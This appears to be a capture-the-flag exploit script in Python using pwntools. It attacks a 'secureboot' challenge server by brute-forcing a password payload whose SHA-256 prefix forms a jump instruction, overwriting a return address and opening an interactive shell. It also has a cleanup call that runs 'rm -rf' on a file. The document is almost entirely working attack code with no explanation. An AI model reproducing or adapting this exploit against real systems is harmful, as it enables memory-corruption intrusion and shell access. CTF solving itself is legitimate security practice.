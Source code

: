 ```python
DEBUG = False
fname = ""
ph = None
exp_opcode = "jmp $-0x7"
# target_addr = 0x67db07b - 32 + 2
target_addr = 0x67db07b


if DEBUG:
    ph = process("./run.py")
    #context.log_level = 'debug'
    #context.terminal = ['tmux', 'splitw', '-h']
    #gdb.attach(ph)
else:
    ph = remote('secureboot.ctfcompetition.com', 1337)

def bruce(opcode):
    last_opcode = asm(opcode, arch="amd64", os="linux")
    for i in string.printable:
        for j in string.printable:
            for k in string.printable:
                payload = i + j + k + "A"*125 + '\x00'*8 + p32(target_addr)
                if hashlib.sha256(payload).digest()[:2] == last_opcode:
                    log.info("Find payload" + payload)
                    print(hashlib.sha256(payload).hexdigest())
                    payload = payload[0:128] + "A"*8 + payload[136:]
                    log.info("Find payload" + payload)
                    return payload

    log.info("Find nothing..")
    return ""

def exploit(ph):
    # input("wait for gdb")
    # just sleep to wait
    print ph.recvn(1)
    # sleep(1)
    ph.send("\x1b[24~")
    # sleep(1)

    print ph.recvuntil("Password")
    # a=raw_input("wait for gdb")
    payload = bruce(exp_opcode)
    # payload = "A"
    ph.send(payload+"\r")
    # ph.send('1010' + 'A' * 0x84 + p32(0x7ec18b8 - 32 + 1) + '\r')

def local(ph):
    exploit(ph)
    ph.interactive()
    print("Finish attack, will delete file")
    os.system("rm -rf %s" % (fname))

if __name__ == "__main__":
    # local(ph)
    exploit(ph)
    ph.interactive()

```
